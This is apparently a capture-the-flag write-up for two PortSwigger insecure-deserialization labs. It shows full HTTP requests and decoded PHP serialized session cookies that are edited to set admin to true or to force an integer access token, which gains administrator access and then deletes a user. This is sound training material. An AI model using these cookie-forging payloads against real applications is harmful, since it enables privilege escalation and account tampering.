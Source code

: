 ### Modifying serialized objects

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: wiener:peter

Enter Credential in Login Form.

![Login Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-1.png)

Capture the Request Using Burp Suite.

```
POST /login HTTP/1.1
Host: acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
DNT: 1
Connection: close
Referer: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

username=wiener&password=peter

```

After Login we will be redirect to my-account and assign cookie base64 Serialized object.
Lets Decode it and modify it.

```
GET /my-account HTTP/1.1
Host: acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net/login
DNT: 1
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

```

After modifying the session cookie
just change boolean value of admin to 1.

```
GET /my-account HTTP/1.1
Host: acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acf61f251eecb4b2c0ee0f960029001f.web-security-academy.net/login
DNT: 1
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

```

After modifying we will redirect to admin page.
Show in below
just Delete user carlos and lab will be solved.

![Admin Page](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-2.png)

---

### Modifying serialized data types

This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos.

You can log in to your own account using the following credentials: wiener:peter

![Website](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-3.png)

Login with Credential

![Login](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-4.png)

```
POST /login HTTP/1.1
Host: acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net
DNT: 1
Connection: close
Referer: https://acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net/login
Cookie: session=
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

username=wiener&password=peter

```

After Forwarding Request We get following response.

```
GET /my-account HTTP/1.1
Host: acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net/login
DNT: 1
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJxZTBsNXFucXFuZzA5aXJtNzhmdTM0dm1jbzRiMG1sMyI7fQ%3d%3d
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

```

Lets Decode Session Cookie

Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJxZTBsNXFucXFuZzA5aXJtNzhmdTM0dm1jbzRiMG1sMyI7fQ%3d%3d

After Decoding

O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"qe0l5qnqqng09irm78fu34vmco4b0ml3";}

Lets modify this object

O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}

Forward this Request.

```

GET /my-account HTTP/1.1
Host: acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net/login
DNT: 1
Connection: close
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg==
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1

```

![Admin Panal](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-5.png)

Delete Carlos User

```
GET /admin/delete?username=carlos HTTP/1.1
Host: acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: https://acb71f3d1e3d3f3ac0227a780061000b.web-security-academy.net/admin
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg==
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Sec-GPC: 1
```

Lab Complete

![Success](https://github.com/vrbait1107/CTF_WRITEUPS/blob/main/Portswigger/images/Insecure-deserialization/ID-6.png)

---
